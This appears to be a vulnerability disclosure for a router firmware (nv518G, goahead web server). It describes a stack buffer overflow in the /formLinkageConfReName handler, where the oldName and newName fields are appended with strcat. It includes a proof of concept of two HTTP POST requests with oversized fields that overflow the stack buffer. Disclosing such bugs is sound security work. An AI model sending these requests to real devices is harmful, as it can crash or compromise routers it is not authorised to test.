


# FUN_00447048 漏洞信息

## 基础信息
- **影响组件**: /gohead/sub_447CAC
- **固件版本**: nv518GV3v3.2.7-210919-161313

## 漏洞详情

/gohead/sub_447CAC




The attacker controls oldName (v3) and newName (v4). v10 already contains a long USB path (~200 bytes). strcat(v10, "/tmp/urcp/configs/") adds ~19 bytes. Then strcat(v10, v3) appends the attacker’s string. If v3 exceeds ~40 bytes, v10 overflows, corrupting adjacent stack memory and the return address.


poc:

```
POST /formLinkageConfReName HTTP/1.1

oldName=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
newName=anything
statustr=success


POST /formLinkageConfReName HTTP/1.1

oldName=anything
newName=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
statustr=fail

```